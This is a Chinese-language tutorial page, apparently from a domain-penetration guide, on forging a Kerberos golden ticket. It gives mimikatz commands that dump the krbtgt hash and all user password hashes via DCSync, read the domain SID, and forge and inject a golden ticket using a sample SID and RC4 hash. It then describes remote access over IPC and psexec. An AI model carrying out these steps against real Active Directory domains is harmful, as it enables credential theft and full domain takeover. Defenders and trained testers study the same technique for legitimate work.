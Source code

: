 > 原文：[http://book.iwonder.run/域渗透/5.1.2.html](http://book.iwonder.run/域渗透/5.1.2.html)

### 5.1.2 黄金票据利用

#### 1、导出 krbtgt 密码 hash

```
mimikatz#lsadump::dcsync /domain:adtest.com /user:krbtgt 
```

![image](img/6499994de0ddde07411a9f955f091852.png)

导出所有域内用户密码 hash 值:

```
mimikatz#lsadump::dcsync /domain:adtest.com /all /csv 
```

![image](img/d43e033b97ca0531c917e577f550566c.png)

#### 2、获取域 SID

在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID

```
whoami /all 
```

![image](img/a87323f2dd903e9a0120c114f16a8b8e.png)

#### 3、伪造黄金票据

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4: 6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt" 
```

这里可以不指定 target 和 service

```
kerberos::golden /domain:adtest.com /sid:S-1-5-21-3418659180-3421952656-
1938706522 /rc4:6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt 
```

![image](img/db3dddc22088b73cf7fd4c4051555584.png)

使用 klist 查看本地缓存的票据

![image](img/864d2683e5d90ffa0bb19590e6ce5a86.png)

获得票据后可直接通过 dir 远程访问主机，可以直接使用 ipc 进行连接:

![image](img/b1a6a262e61b1da3f31203cba6a3c17f.png)

当然也可以使用 psexec 去获得一个 cmdshell:

![image](img/93383a4096e583d11f4e020a4d68b1e4.png)

> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。

